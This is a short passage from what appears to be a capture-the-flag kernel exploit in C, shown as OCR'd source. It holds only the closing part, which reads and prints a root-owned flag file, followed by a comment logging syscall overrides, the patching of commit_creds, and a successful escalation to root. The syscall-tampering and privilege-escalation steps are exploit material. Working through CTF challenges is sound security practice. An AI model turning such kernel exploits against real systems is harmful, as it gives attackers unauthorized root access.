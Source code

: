 ```c
        char flag[128];
        FILE *fp = fopen("/root/flag", "r");
        if (fp == NULL)
        {
            perror("[-] Error while opening the flag file\n");
            return -1;
        }
        fgets(flag, 128, fp);
        printf("[+] Flag: %s", flag);
        fclose(fp);
    }
    else {
        perror("committing kernel creds failed\n");
    }
    
    return 0;
}

/*
/tmp/dalal $ ./exploit
Successfully overrode the alarm syscall
Successfully filled commit_creds with NOP
Successfully overrode the time syscall
Successfully committed kernel creds!
You should now have root privileges
[+] Flag: Must_san1tize_Us3r_p0int3r
*/
```
